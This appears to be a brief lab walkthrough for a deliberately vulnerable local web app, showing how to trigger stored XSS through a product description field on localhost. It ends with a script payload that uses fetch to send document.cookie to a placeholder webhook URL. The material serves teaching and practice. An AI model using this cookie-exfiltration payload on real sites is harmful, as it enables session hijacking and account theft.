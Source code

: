 ## XSS

### Preparation

Go to `http://localhost:3000/settings` and set `XSS` -> `Stored XSS`

![img.png](img.png)

We will check feature `Add Product` or URL: `http://localhost:3000/product/add`

![img_1.png](img_1.png)

Test XSS in description (or another)

![img_2.png](img_2.png)

And submit. We have a product URL here:

![img_3.png](img_3.png)

Or you can see our product in `http://localhost:3000`

![img_4.png](img_4.png)

Click it!

![img_5.png](img_5.png)
`alert(1)` => We confirm XSS vulnerability occur here!

You can try payload:
```js
<script>
fetch(`YOUR-WEB-HOOK-URL?cookie=${document.cookie}`)
</script>
```

Done!

![img_6.png](img_6.png)